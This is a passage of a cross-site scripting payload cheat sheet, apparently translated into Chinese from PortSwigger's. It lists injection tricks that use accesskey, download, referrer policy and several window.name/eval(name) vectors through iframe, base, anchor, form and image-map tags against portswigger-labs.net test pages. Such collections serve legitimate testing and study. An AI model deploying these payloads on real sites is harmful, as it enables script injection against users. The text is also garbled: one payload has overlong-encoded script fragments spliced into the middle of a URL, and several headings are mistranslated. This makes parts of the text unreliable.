 ```
<link rel="canonical" accesskey="X" onclick="alert(1)" /> (Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)
```

#### **下载属性可以保存当前网页的副本**

```
<a href=# download="filename.html">Test</a>
```

#### **使用推荐策略**禁用推荐

```
<img referrerpolicy="no-referrer" src="//portswigger-labs.net">
```

#### **通过 window.open 函数的参数设置 window.name】**

```
<a href=# onclick="window.open('http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//','alert(1)')">XSS</a>
```

#### **通过< iframe >标签**中的 name 属性设置 window.name

```
<iframe name="alert(1)" src="https://portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//"></iframe>
```

#### **通过<基>标签**中的目标属性设置 window.name

```
<base target="alert(1)"><a href="http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//">XSS via target in base tag</a>
```

#### **通过<标签**中的目标属性设置 window.name

```
<a target="alert(1)" href="http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//">XSS via target in a tag</a>
```

#### **通过< img >标签**中的 usemap 属性设置 window.name

```
<img src="validimage.png" width="10" height="10" usemap="#xss"><map name="xss"><area shape="rect" coords="0,0,82,126" target="alert(1)" href="http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_st%C0%BCscript>alert(1)</script> %E0%80%BCscript>alert(1)</script> %F0%80%80%BCscript>alert(1)</script> %F8%80%80%80%BCscript>alert(1)</script> %FC%80%80%80%80%BCscript>alert(1)</script>ring_single&x=%27;eval(name)//"></map>
```

#### **通过<表单>标签**中的目标属性设置 window.name

```
<form action="http://subdomain1.portswigger-labs.net/xss/xss.php" target="alert(1)"><input type=hidden name=x value="';eval(name)//"><input type=hidden name=context value=js_string_single><input type="submit" value="XSS via target in a form"></form>
```
